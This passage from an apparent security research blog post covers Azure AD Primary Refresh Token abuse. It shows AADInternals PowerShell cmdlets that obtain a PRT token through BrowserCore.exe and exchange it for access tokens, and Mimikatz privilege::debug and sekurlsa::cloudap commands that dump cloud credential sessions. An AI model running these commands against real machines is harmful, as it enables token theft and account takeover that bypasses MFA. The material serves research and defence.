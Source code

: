 As all the keys well protected, how to use them? The easiest way is to let the Windows components do the work for you!

Both <a href="https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/" target="_blank">@_dirkjan</a> and <a href="https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30" target="_blank">@tifkin_</a>
showed how Microsoft Edge and Chrome (through the <a href="https://chrome.google.com/webstore/detail/windows-10-accounts/ppnbnpeolgkicgegkbkbjmhlideopiji?hl=en" target="_blank">extension</a>) uses **BrowserCore.exe** to 
generate a signed PRT token. 

The generated token can be used either as a cookie or http request header, both named as **x-ms-RefreshTokenCredential**.

In AADInternals, I'm using @_dirkjan's approach to send the requests to stdin of BrowserCore.exe and read the results from stdout. 
I've added **-PRTToken** parameter to **Get-AADIntAccessTokenFor&lt;service>** functions so you can pass the prt token to get the access token.

**Note!** On some computers I've tested, getting the token may fail every now and then.

{{< highlight powershell >}}
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
{{< /highlight>}}

The nicest thing here is that if the PRT was issued with MFA, the resulting access token also has the MFA claim! 

> **Update on Sep 29th 2020:** <br>
> It seems that PRT tokens must now include the **request_nonce**. If not, Azure AD sends a redirect with **sso_nonce** which
> must be added to the PRT token. This means that without access to **session key**, PRT tokens can't be used anymore. 

## The Mimikatz way

The Mimikatz release <a href="https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20200807" target="_blank">2.2.0Azure Pass-the-PRT</a> has everything needed for extracting
the PRT and session key. 

**Note!** Below I'm using a virtual machine without TPM. Mimikatz may behave differently on a computer with TPM.

First step is to launch the mimikatz and get the debug privilege:
```
mimikatz # privilege::debug
Privilege ' 20' OK
```
Next we dump the CloudAP stuff:
```
mimikatz # sekurlsa::cloudap
```
The output contains a lot of users, but we are interested here on those having **AzureAD** as their domain:
```
Authentication Id : 0 ; 4482338 (00000000:00446522)
Session           : Interactive from 3
User Name         : TestUser
Domain            : AzureAD
Logon Server      : (null)
Logon Time        : 01/09/2020 9.47.35
SID               : S-1-12-1-xx-xx-xx-xx
```